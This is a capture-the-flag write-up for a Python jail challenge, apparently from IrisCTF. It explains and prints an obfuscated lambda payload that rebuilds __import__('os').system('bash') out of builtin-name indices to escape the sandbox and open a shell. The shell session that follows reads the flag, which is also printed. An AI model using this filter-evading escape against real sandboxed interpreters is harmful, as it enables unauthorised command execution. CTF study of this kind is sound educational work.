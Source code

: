 ```python
```

Let's take a look at the design of this:
- We have our large outer lambda that takes `x = vars()` and `y = vars`.
- This lambda calls an inner lambda that takes `b`, which is the builtins module. Really the only reason for this is because I didn't want to have to modify 3 instances of `x[[k for k in x][6]]`. Don't repeat yourself!
- The inner lambda calls yet _another_ inner lambda, which takes... a lot of parameters. Yes, some of the numbers overlap and I could have made this simpler, or just calculated the numbers on the fly! But as much as Python code like this should never be written in an actual production setting, I decided to try to keep some semblance of "good programming convention" and make the code (relatively) easy to read. So, we have `vars`, which represents the output of `vars(b)`, we have `keys`, which is all of the keys of `vars(b)`, and we have `builtins`, which is just `b` itself. After this, we have the indices representing all of the functions we need, either to call or to generate strings, and then we have the indices to generate strings! (This is the one time that naming a variable `zero` when it stores `0` actually is useful). We utilize `-~` multiple times, and when I felt the lines got too long, I added another lambda to calculate from intermediate values.
- Inside the innermost lambda is actually relatively readable: we call `__import__` on `"os"`, then look up the `system` function inside it, then call it with `"bash"`. It's mainly just the setup that is time-consuming.

When I ran the code, nothing showed up at first, and I was a bit scared I hadn't managed to open a shell. But after typing `ls`, everything showed up, so I was able to find the flag!

```
Code: lambda x, y: (lambda b: (lambda vars, keys, builtins, _import, _abs, _any, _bin, _globals, _hash, zero, two, four, five, six, seven: y(vars[keys[_import]](keys[_globals][two]+keys[_globals][six]))[keys[_abs][two]+keys[_any][two]+keys[_abs][two]+keys[_import][seven]+keys[0][five]+keys[0][four]](keys[_bin][0]+keys[_abs][0]+keys[_abs][two]+keys[_hash][0]) )(y(b), [k for k in y(b)],b,(lambda z: -~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0),(lambda z: -~(z+z))((lambda z: -~-~-~-~-~-~-~-~-~-~-~z)(0)),(lambda z: z+z+z+z+z)((lambda z: -~-~-~-~-~z)(0)),0,(lambda z: -~-~z)(0),(lambda z: -~-~-~-~z)(0),(lambda z: -~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~z)(0),(lambda z: -~-~-~-~-~-~-~z)(0)))(x[[k for k in x][(lambda z: (z + z) * (z + z + z))((lambda z: -~z)(0))]])
ls
chal.py
ls -a
.
..
chal.py
ls /
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag
irisctf{i_made_this_challenge_so_long_ago_i_hope_there_arent_10000_with_this_idea_i_missed}
```
